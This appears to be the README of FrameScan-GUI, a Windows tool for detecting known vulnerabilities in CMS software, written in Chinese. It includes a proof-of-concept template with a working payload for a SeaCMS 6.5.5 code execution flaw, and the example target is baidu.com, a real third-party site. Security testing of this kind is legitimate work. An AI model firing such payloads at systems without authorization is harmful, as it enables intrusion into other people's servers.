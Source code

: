 # FrameScan

## 工具简介
FrameScan-GUI是一款python3和Pyqt编写的具有图形化界面的cms漏洞检测框架，是[FrameScan](https://github.com/qianxiao996/FrameScan) 的加强版。支持多种检测方式，支持大多数CMS，可以自定义CMS类型及自行编写POC。旨在帮助有安全经验的安全工程师对已知的应用快速发现漏洞。
## 支持平台

- Windows  


### 使用方法

下载本项目，运行exe即可。

![1](F:\编程代码\Python37\脚本\FrameScan-GUI\img\1.jpg)

![2](F:\编程代码\Python37\脚本\FrameScan-GUI\img\2.jpg)

## 自定义POC模板

以下为POC模板，请尽量规范编写。脚本中为示例代码。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: 漏洞名称（禁止换行）控制在30字以内
referer: 漏洞地址（禁止换行）未知请填unknown
author: 作者名
description: 漏洞描述 
'''
import sys
import requests
import warnings
#方法名称自定义
class seacms_655_code_exec:
    def __init__(self, url):
        self.url = url
    def run(self):
        #此处编辑检测代码
        #示例代码，请更改result内容，result[0]为漏洞名称,result[1]为返回的内容，result[2]为测试结果
        result = ['seacms v6.5.5代码执行漏洞','','']
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*"
        url_path = self.url + "/search.php?phpinfo();"
        try:
            data = requests.get(url_path, timeout=3,headers=headers, verify=False)
            if data.status_code == 200 and 'phpinfo' in data.text:
                result[2]= "存在"
                result[1] = "URL:%s\nPOST:%s"%(url_path,payload)
            else:
                result[2] = "不存在"
        except Exception as e:
            # print (e)
            result[2] ="未知"
            #这里可设置未知，连接超时等，只有不存在不会显示到结果中。
        return result
        #最后一定要返回一个带有3个参数的列表。不然会出错误。

if __name__ == "__main__":
    #此处不会调用
    warnings.filterwarnings("ignore")
    testVuln = seacms_655_code_exec("http://baidu.com")
    print(testVuln.run())
```

## 鸣谢

POC多数来源于[AngelSword](https://github.com/Sch01ar/AngelSword)
部分为自己编写，欢迎投递POC

邮箱地址：qianxiao996@126.com

## 警告！
**请勿用于非法用途！否则自行承担一切后果**



## 使用问题

### 问题一

![3](F:\编程代码\Python37\脚本\FrameScan-GUI\img\3.png)

将Qt安装目录下的platforms文件夹复制到exe程序目录。若风格不同，复制styles文件夹到程序目录。

### 问题二

若出现以下提示模块不存在，请pip安装模块或在Plugins.py中注释掉该行。

![4](F:\编程代码\Python37\脚本\FrameScan-GUI\img\4.png)